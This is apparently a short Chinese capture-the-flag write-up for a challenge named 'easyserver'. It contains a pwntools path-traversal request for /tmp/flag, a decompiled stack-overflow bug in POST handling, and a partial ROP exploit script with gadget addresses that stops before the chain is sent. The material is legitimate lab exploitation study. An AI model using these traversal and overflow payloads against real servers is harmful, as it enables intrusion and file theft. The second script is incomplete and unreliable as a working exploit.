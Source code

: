
## easyserver

可以跨目录读文件，但没啥用，限制长度了。

```
from pwn import *

context.log_level = "debug"

data = "GET /../../../../tmp/flag HTTP/1.1\r\n"
data += "\r\n"

p = remote("192.168.245.158", 59816)

p.send(data)


p.interactive()
```

0x1103C 栈溢出

```
  if ( !strcmp_0(req, "POST") )
  {
    while ( recv_string(sock_fd, v9, 0x500) > 0 && strcmp("\n", &v9[60]) )
    {
      v9[75] = 0;
      if ( !strcmp_0(&v9[60], "Content-Length:") )
        content_length = atoi(&v9[76]);
    }
    if ( content_length == -1 )
      return send_400(sock_fd);
  }
```

然后 rop 调用 send_file 把 /tmp/207775d1ee9b9efa245fd9fb6fc03b68/flag 的内容通过socket发出来。

```
from pwn import *

context.log_level = "debug"

data = "POST /404.html HTTP/1.1 /tmp/207775d1ee9b9efa245fd9fb6fc03b68/flag\r\n"
# data += "\r\n"
# data += "B" * 0x500
data += "A" * 0x44c
data += "B" * (0x500 - 0x44c)


# 006099C                 POP     {R0,PC}
# 00060A84                 POP     {R1,PC}

pop_r0 = 0x006099C
pop_r1 = 0x60A84
close_addr = 0x2C068



p = remote("192.168.245.158", 59816)

p.send(data)

sleep(0.1)

pause()
```